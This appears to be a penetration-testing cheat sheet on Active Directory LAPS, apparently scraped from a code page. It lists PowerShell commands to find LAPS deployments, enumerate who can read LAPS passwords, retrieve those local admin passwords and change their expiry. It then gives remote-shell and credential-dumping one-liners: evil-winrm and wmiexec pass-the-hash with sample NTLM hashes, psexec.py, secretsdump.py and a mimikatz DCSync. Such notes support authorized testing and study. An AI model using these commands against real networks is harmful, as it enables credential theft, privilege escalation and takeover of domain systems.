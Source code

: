 LAPS Recon

#Find if LAPS client is installed on the local machine
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash  'c:\program files\LAPS\CSE\Admpwd.dll'
Test-Path 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\NT\CurrentVersion\Winlogon\GPExtensions'

#Check the existence of LAPS attributes:
Get-AdObject ‘CN=ms mcs-admpwd,CN=Schema,CN=Configuration,DC=ELS,DC=LOCAL’”

#Check for GPOs containing LAPS in its display name
Get-DomainGPO -Identity ‘*LAPS*’”

#Finding all computers where the LAPS GPO has been applied and get the computers list 
Get-DomainOU -GPLink “<GUID_NAME>” -Properties distinguishedname
Get-DomainComputer -SearchBase “LDAP://<distinguishedname>” -Properties distinguishedname


#List the users who has access to LAPS Password - using LAPS Powershell Module
Find-AdmPwdExtendedRights Identity workstations | %{$_.ExtendedRightHolders}

# Retrieve LAPS Password using LAPS Powershell Module
Get-AdmPwdPassword -ComputerName <Target> | fl

#Changing LAPS Expiry Time 
Set-DomainObject -Identity <TARGET_COMPUTER> -Set @{‘ms-Mcs-AdmPwdExpirationTime’=‘<NEW_VALUE>’} -Verbose

Open a Shell using creds: 

#if Port 5985 is open, we can login into winrm

sudo evil-winrm -u USERNAME -p PASSWORD -i 10.10.10.10

or 

evil-winrm -u username -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.10


or 

 psexec.py USERNAME@10.10.10.10

or 

sudo secretsdump.py USERNAME@10.10.10.10

OR  login to the machine and 

./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit";

or 
evil-winrm -i 10.10.10.10 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

or 
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 steins.local/administrator@10.10.10.10

